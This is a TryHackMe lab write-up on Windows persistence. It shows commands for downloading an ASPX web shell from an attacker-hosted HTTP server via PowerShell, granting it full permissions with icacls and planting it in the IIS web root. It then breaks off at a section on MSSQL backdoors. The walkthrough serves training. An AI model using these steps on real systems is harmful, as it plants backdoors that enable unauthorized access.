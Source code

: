 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Using Web Shells
1. Started this room's machine
2. `firefox <URL>`
```Bash
root@ip-10-10-32-42:~# firefox https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
```

![]()

3. `sudo python -m http.server`
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
4. `(New-Object System.Net.WebClient).Downloadfile('http://<ATTACK MACHINE IP>:8000/<ASPX.NET WEB SHELL FILE1>','<ASPX.NET WEB SHELL FILE2>.exe')`
```PowerShell
PS C:\Users\Administrator> (New-Object System.Net.WebClient).Downloadfile('http://10.10.32.42:8000/cmdasp.aspx','shell.aspx')
```
5. `dir`
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   9:00 PM          20216 shell.aspx
```
6. `icacls <ASPX,WEB SHELL FILE PATH> /grant Everyone:F`
```PowerShell
PS C:\Users\Administrator> icacls shell.aspx /grant Everyone:F
processed file: shell.aspx
Successfully processed 1 files; Failed processing 0 files
```
7. `move shell.aspx C:\inetpub\wwwroot\`
```PowerShell
PS C:\Users\Administrator>move shell.aspx C:\inetpub\wwwroot\
        1 file(s) moved.
```
8. `explorer.exe "http://<TARGET IP>/shell.aspx"`
```PowerShell
PS C:\Users\Administrator> explorer.exe http://10.10.219.169/shell.aspx
```

![]()

9. `C:\flags\flag16.exe`

![]()

# Using MSSQL as a Backdoor
1. Started this room's machine
